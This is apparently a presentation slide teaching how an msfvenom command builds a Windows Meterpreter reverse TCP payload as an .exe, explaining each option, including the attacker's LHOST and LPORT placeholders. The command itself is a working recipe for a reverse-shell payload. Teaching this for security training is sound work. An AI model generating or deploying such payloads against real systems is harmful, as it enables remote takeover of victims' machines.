

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
Lets break this command and understand what is happening in the code:
Msfvenom:This is the command to run the Metasploit payload generator, which allows you to create custom payloads.
-p windows/meterpreter/reverse_tcp:
This option specifies the payload to be generated. In this case, it's the Windows meterpreter reverse TCP payload. Meterpreter is a versatile payload used for post-exploitation activities, and the reverse TCP option establishes a connection back to the attacker's machine.
LHOST=<IP>:Replace IP with the IP address of the machine where the attacker is running Metasploit. This is the IP address that the compromised system will connect back to.
LPORT=<PORT>:Replace PORT with the port number on which the compromised system will establish the connection. This is the port that the compromised system will use to communicate with the attacker's machine.